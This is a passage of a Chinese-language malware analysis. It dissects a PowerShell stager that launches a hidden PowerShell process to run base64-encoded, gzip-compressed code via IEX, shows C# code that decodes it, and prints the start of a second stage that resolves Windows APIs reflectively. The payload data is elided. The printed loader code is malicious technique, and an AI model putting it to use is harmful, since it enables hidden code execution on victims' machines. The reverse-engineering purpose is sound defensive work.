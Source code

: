 ```
if([IntPtr]::Size -eq 4)
{
	$b='powershell.exe'
}
else
{
	$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'
};
$s=New-Object System.Diagnostics.ProcessStartInfo;
$s.FileName=$b;
$s.Arguments='-nop -w hidden -c
	$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String(xxx));
	IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
';
$s.UseShellExecute=$false;
$s.RedirectStandardOutput=$true;
$s.WindowStyle='Hidden';
$s.CreateNoWindow=$true;
$p=[System.Diagnostics.Process]::Start($s);
```

可以看到又是一路假镖，为了隐藏自己的服务器ip地址，作者可真是用心良苦啊。可以看到这里又是调用Powershell来运行命令，而运行的命令又是通过Base64 进行加密的。我们再次使用Base64对命令进行解密可以得到一串乱码，再次仔细查看上面的代码可以发现其实有一个`New-Object IO.Compression.GzipStream`用来对流进行压缩，可以知道不仅仅是加密还有压缩的。这里我们很自然想到可以使用VS通过C#来进行编程得到解压且解密之后的东西。经过一番百度之后我们可以写出下面这样的代码：
```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace ConsoleApplication1
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] outputb = Convert.FromBase64String("H4sI...省略...A");
            System.IO.MemoryStream cmpStream = new System.IO.MemoryStream(outputb);
            System.IO.Compression.GZipStream zipStream = new System.IO.Compression.GZipStream(cmpStream, System.IO.Compression.CompressionMode.Decompress);

            System.IO.StreamReader reader =new System.IO.StreamReader(zipStream);
            string str = reader.ReadToEnd();
            //string kkk  = Encoding.Default.GetString(outputb);

            Console.WriteLine(str);
        }
    }
}
```
运行之后我们可以得到
```
function aVNbl {
        Param ($vUWa37, $gWJz4CZjPH)
        $xM8SDmw = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location
Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $xM8SDmw.GetMethod('GetProcAddress').Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Obje
t System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($xM8SDmw.GetMethod('GetModuleHandle')).Invoke($null, @
```